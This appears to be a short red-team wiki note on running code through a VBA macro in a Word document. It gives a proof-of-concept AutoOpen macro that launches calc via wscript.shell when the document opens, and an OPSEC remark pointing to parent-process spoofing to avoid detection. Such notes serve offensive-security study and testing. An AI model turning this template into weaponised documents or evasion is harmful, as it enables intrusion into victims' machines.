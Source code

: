 # VBA
You can create a macro in a Word document by going to **View > Macros > Create**.  Change the "Macros in" field from "All active templates and documents" to "Document 1".

Trigger Functions
* AutoOpen


PoC.vb
``````vb
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "calc"

End Sub
``````

#OPSEC Word spawning a process highly suspicious [[Parent-Process-Spoofing (PPS)]]


## Tools
########
########

```meta
ttp: T1000
internal: false
requirements: 
results: user, admin
description: VBA execution via Office
```